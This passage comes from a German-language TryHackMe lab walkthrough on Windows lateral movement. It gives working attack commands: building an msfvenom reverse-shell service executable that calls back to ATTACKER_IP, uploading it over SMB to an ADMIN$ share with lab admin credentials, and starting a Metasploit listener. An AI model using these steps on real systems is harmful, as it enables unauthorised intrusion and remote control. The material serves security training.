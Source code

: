 Da das System die geplante Aufgabe ausführt, wird uns die Ausgabe des Befehls nicht zur Verfügung stehen, was dies zu einem Blindangriff macht.

Schließlich können wir die geplante Aufgabe mit folgendem Befehl löschen und uns aufräumen:

```bash
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Let's Get to Work!

Wir verbinden uns per SSH mit der THMJMP2 Maschine und nutzen unsere Credentials von unserem initial foothold. 

>ssh henry.bird@thmjmp2.za.tryhackme.com

Password: Changeme123

Wir haben ausserdem Zugangsdaten von einem "Admin" erhalten, die wir jetzt nutzen werden.

User: ZA.TRYHACKME.COM\t1_leonard.summers

Password: EZpass4ever

Wir werden zeigen, wie man diese Anmeldeinformationen verwendet, um seitlich zu THMIIS zu gelangen, indem wir sc.exe verwenden. Sie können gerne auch die anderen Methoden ausprobieren, da sie alle gegen THMIIS funktionieren sollten.

Obwohl wir bereits gezeigt haben, wie man sc verwendet, um einen Benutzer auf einem entfernten System zu erstellen (indem wir net user verwenden), können wir auch jede Binärdatei hochladen, die wir ausführen möchten, und sie mit dem erstellten Dienst verknüpfen. Wenn wir jedoch versuchen, eine Reverse-Shell mit dieser Methode auszuführen, werden wir feststellen, dass die Reverse-Shell sofort nach der Ausführung getrennt wird. Der Grund dafür ist, dass Dienst-Executables sich von Standard-.exe-Dateien unterscheiden und daher nicht-Dienst-Executables fast sofort vom Dienst-Manager beendet werden. Glücklicherweise unterstützt msfvenom das exe-service-Format, das jedes Payload, das wir mögen, in eine voll funktionsfähige Service-Executable einbettet und verhindert, dass sie beendet wird.

Um eine Reverse-Shell zu erstellen, können wir den folgenden Befehl verwenden:

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o rshell4444.exe
```

Wir werden dann fortfahren und die Anmeldeinformationen von t1_leonard.summers verwenden, um unser Payload auf den ADMIN$-Freigabe Ordner von THMIIS mithilfe von smbclient von unserer AttackBox aus hochzuladen:

```bash
smbclient -c 'put rshell4444.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```
Sobald unsere ausführbare Datei hochgeladen ist, richten wir auf dem Rechner des Angreifers einen Listener ein, um die Reverse-Shell von msfconsole zu empfangen:

Beispiel:
```bash
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
```
